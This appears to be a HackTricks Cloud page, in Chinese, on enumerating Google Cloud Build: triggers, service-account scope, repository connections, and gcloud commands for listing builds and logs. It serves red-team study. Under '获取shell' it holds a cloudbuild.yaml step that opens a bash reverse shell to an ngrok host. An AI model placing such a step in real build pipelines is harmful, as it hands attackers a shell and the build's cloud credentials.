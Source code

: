 # GCP - Cloud Build 枚举

<details>

<summary><strong>从零到英雄学习AWS黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

## 基本信息

Google Cloud Build是一个托管的CI/CD平台，**自动化软件构建**和发布流程，与**源代码仓库**集成，并支持广泛的编程语言。它**允许开发人员自动构建、测试和部署代码**，同时提供自定义构建步骤和工作流程的灵活性。

每个Cloud Build触发器都**与Cloud仓库相关联或直接与外部仓库连接**（Github、Bitbucket和Gitlab）。

{% hint style="success" %}
我没有看到任何方法可以从这里或Cloud仓库窃取Github/Bitbucket令牌，因为当下载仓库时，它是通过[https://source.cloud.google.com/](https://source.cloud.google.com/) URL访问的，客户端不会访问Github。
{% endhint %}

### 事件

Cloud Build可以在以下情况下触发：

* **推送到分支**：指定分支
* **推送新标签**：指定标签
* **拉取请求**：指定接收PR的分支
* **手动调用**
* **Pub/Sub消息**：指定主题
* **Webhook事件**：将暴露一个HTTPS URL，请求必须使用密钥进行认证

### 执行

有3个选项：

* 一个yaml/json **指定要执行的命令**。通常是：`/cloudbuild.yaml`
* 只有一个可以在网络控制台和命令行界面中“内联”指定
* 最常见的选项
* 对于未经认证的访问很重要
* 一个**Dockerfile**来构建
* 一个**Buildpack**来构建

### SA权限

**服务帐户具有`cloud-platform`范围**，因此可以**使用所有权限**。如果**没有指定SA**（如在提交时），将使用**默认SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

默认情况下不赋予任何权限，但给予权限相当容易：

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### 审批

可以配置Cloud Build以**要求对构建执行进行审批**（默认禁用）。

### 连接 & 仓库

连接可以通过以下方式创建：

* **GitHub**：它将显示一个OAuth提示，要求权限以**获取Github令牌**，该令牌将存储在**Secret Manager**内。
* **GitHub Enterprise**：它将要求安装一个**GithubApp**。将在您的GitHub Enterprise主机上创建一个**认证令牌**，并将其作为S**ecret Manager**密钥存储在此项目中。
* **GitLab / Enterprise**：您需要提供**API访问令牌和读取API访问令牌**，这些将存储在**Secret Manager**中。

一旦生成连接，您可以使用它来**链接Github帐户有权访问的仓库**。

此选项可通过以下按钮访问：

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
请注意，使用此方法连接的仓库**仅在使用第二代触发器时可用**。
{% endhint %}

### 连接仓库

这与**`connection`**不同。这允许**不同**的方式来获取**访问Github或Bitbucket**仓库的权限，但**不会生成连接对象，但它确实会生成一个仓库对象（第一代）。**

此选项可通过以下按钮访问：

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### 存储

有时Cloud Build会**生成一个新的存储来存储触发器的文件**。例如，在GCP提供的示例中就会发生这种情况：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
存储桶名为[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)被创建用来存储将要使用的`.tgz`文件。

### 获取shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 枚举

您可能会在构建配置和日志中发现**敏感信息**。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 权限提升

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 未经认证的访问

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 后期利用

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享您的黑客技巧。

</details>
